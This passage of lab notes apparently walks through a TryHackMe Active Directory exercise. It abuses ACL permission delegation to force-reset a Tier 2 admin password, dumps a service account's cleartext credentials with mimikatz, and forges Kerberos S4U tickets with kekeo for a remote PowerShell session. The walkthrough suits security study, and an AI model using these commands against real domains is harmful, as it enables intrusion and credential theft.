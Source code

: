 ```sh
resolvectl dns exploitad 10.200.60.101 #interface and DNS IP
```
## Exploiting Permission Delegation

### Permission Delegation
ACL-based attacks
Access Control Entities (ACEs)
Discretionary Access Control Lists (DACLs)

E.g. if IT Support has ForceChangePassword ACE over Domain Users, they can escalate privs by resetting privileged account passes

### Exploiting ACEs
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

Notable ACEs

| Name                | Ability                                                                                                                                   |
| ------------------- | ----------------------------------------------------------------------------------------------------------------------------------------- |
| ForceChangePassword | Set user's password without knowing current                                                                                               |
| AddMembers          | Add users (including current acct) groups or computers to target group                                                                    |
| GenericAll          | Complete control over object, including ability to change user password, register SPN or add an AD obj to the target group                |
| GenericWrite        | Update any non-protected params of target obj. Could for example update scriptPath param, causing a script to exec next time user logs on |
| WriteOwner          | Update owner of target obj. Could make ourselves owner, gaining addt'l perms over obj                                                     |
| WriteDACL           | Write new ACEs to target obj. Could write DACL that allows our account full control over target obj                                       |
| AllExtendedRights   | Any action associated with extended AD rights against target object. Includes ability to force change user's password                     |
To exploit ACE's, need to interact with AD to make the requests. AD-RSAT powershell or PowerSploit

```
scp za\\amy.king@thmwrk1.za.tryhackme.loc:C:/Users/amy.king/Desktop/20241230170411_BloodHound.zip ./ 

└─$ scp ./SharpHound.exe za\\amy.king@thmwrk1.za.tryhackme.loc:C:\\Users\\amy.king\\Desktop

```

Add "Tier 2 Admins" group as end node, then set starting node as "Domain Users" which our user is a member of

Misconfigured, Domain users have ForceChangePassword ability over IT support group

![BloodHound Permission Delegation](img/blog/bloodhound-perm-deleg.png)

"GenericWrite"
"Bloodhound shows us a very interesting path. It seems that there was a slight bit of Permission Delegation in this domain. An administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with the AddMembers ACE. This means that any member of the Domain Users group (including our account) can add accounts to the IT Support Group. Furthermore, Bloodhound shows that the IT Support Group has the ForceChangePassword ACE for the Tier 2 Admins group members. This is not really a misconfiguration since Tier 2 admins are not that sensitive, but it provides a very potent attack path when combined with the initial misconfiguration."

```powershell
PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"

PS C:\>get-adgroupmember -Identity "Tier 2 Admins" 

PS C:\Users\amy.king> $password = convertto-securestring "P@55w0rd" -asplaintext -force
PS C:\Users\amy.king> set-adaccountpassword -identity "t2_alan.riley" -reset -newpassword $password

PS C:\Users\amy.king> ssh localhost -l t2_alan.riley
```

## Exploiting Kerberos Delegation

This is what you think of when you think AD Delegation
Enable application to access resources hosted on another server.

#### Unconstrained
OG implementation of Kerberos Delegation, least secure method.
https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976
Allows for delegation of all services
#### Constrained Delegation - 2003+
Restricts what services an account can be delegated to, limiting exposure if acct compromised

Ex.
HTTP - Web applications to allow pass-thru auth using AD creds
CIFS - Common Internet FS used for file sharing that allows delegation of users to shares
LDAP - Delegate to LDAP service for actions like resetting user pass
HOST - Delegation of account for all activities on the host
MSSQL - Allows delegation of user accounts to SQL service for pass-thru auth to db's

Exploitation example: Password or NTLM hash, generate TGT for this acct, use TGT to execute TGS req for any non-sensitive user to access service as that user.

#### Resource-Based Constrained Delegation - 2012+
RBCD now specifies objects can delegate to object, allows service owner to control who can access it. Ex. instead of specifying web service account can delegate to db service to access db, can now specify on the db service that the web svc account is allowed to delegate access to it.

Permission to config RBCD for a service - Ability to set msDS-AllowedToActOnBehalfOfOtherIdentity attrib for the AD object. Can populate the attrib with details of an AD account we have access to. Can now generate a TGT for account that we control, which will allow us to interact with this service
https://blog.netwrix.com/2022/09/29/resource-based-constrained-delegation-abuse/

#### Constrained Delegation Exploitation

Enum available delegations, use privileged user

```powershell
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth

userprincipalname        : svcIIS@za.tryhackme.loc                                 

sds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1,
                           http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1} 
```

Powershell remoting uses HTTP and WSMAN services as well. Ideally would like to impersonate Tier 1 Admin since this would provide us admin over THMSERVER1

```powershell
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

# impersonate the SYSTEM user
# make sure to exit out of mimi after this or the tickets will be loaded in wrong context further on
mimikatz # token::elevate
# Interacts with registry hive to pull cleartext creds
mimikatz # lsadump::secrets                                                        

Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc  
cur/text: Password1@
```

```powershell
# using kekeo to generate the tickets
kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@ 

# /user: user who has constrained delegation perms
# /domain: domain that we are attacking
# /password: password associated with vuln user

Realm        : za.tryhackme.loc (za) 
User         : svcIIS (svcIIS)
SName        : krbtgt/za.tryhackme.loc  [KRB_NT_SRV_INST (2)] 
Need PAC     : Yes
Auth mode    : ENCRYPTION KEY 23 (rc4_hmac_nt      ): 43460d636f269c709b20049cee36ae7a
[kdc] name: THMDC.za.tryhackme.loc (auto) 
[kdc] addr: 10.200.60.101 (auto)
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'

kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc 

# Provide the TGT that we generated in previous step
# User to impersonate. Chosing an account that has access over servers, so chose a T1 account
# Services: Services we want to impersonate using delegation. Generate TGS for HTTP then rerun same command for WSMAN service, need both to create pssession
[...]
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi' 
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

```powershell
mimikatz # privilege::debug 

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK


PS C:\Tools\mimikatz_trunk\x64> new-pssession -computername thmserver1.za.tryhackme.loc        

  1 WinRM1   thmserver1.z... RemoteMachine   Opened    Microsoft.PowerShell

PS C:\Tools\mimikatz_trunk\x64> enter-pssession -computername thmserver1.za.tryhackme.loc      
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents>

```

## Exploiting Automated Relays